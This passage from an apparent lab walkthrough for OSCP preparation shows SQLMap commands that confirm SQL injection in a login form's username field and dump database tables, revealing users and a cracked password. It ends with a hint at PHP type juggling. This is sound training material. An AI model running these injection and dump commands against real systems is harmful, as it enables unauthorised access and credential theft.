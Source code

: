 Then run SQLMap on the request.

```text
sqlmap -level=5 -risk=3 -p username -r login-request.txt
```

* **-level:** level of tests to perform \(1–5, default 1\)
* **-risk:** risk of tests to perform \(1–3, default 1\)
* **-p:** testable parameter\(s\)
* **-r:** load HTTP request from a file

We get back the following result telling us that with the configuration setting we used, the login form is not vulnerable to SQL injection.

```text
[20:16:43] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
```

However, based on our manual testing, we know for sure that the login page is vulnerable to SQL injection. So, let’s tweak the SQLMap configuration.

```text
sqlmap -level=5 -risk=3 -p username --string="Wrong identification" -r login-request.txt
```

* **— string:** String to match when query is evaluated to True

It discovers that the username parameter is vulnerable!

![](https://miro.medium.com/max/1235/1*1VFinMHgBqOhmh6nDBGk9Q.png)

Let’s configure SQLMap to dump all the database table entries.

```text
sqlmap -level=5 -risk=3 -p username --string="Wrong identification" --dump --batch -r login-request.txt
```

* **— dump:** Dump DBMS database table entries
* **— batch:** Never ask for user input, use the default behaviour

We get back the following result.

![](https://miro.medium.com/max/1403/1*Fnhoa_G1crQUns9Be5phhw.png)

SQLMap found two users: _admin_ and _chris_ and it cracked _chris’s_ password.

**Note:** SQLMap is NOT allowed on the OSCP exam. The Extra Content section at the end of this blog explains how to manually exploit this vulnerability without having to use an automated tool.

Let’s log into Chris’s account.

![](https://miro.medium.com/max/1233/1*1IMQRtMXQCEu-3lydmW97A.png)

There’s no upload functionality on his account but it does make mention of juggling. Since this is a php application and we saw in the SQLMap result that the admin password starts with the string “_0e_”, they’re probably hinting on an attack that involves type juggling.
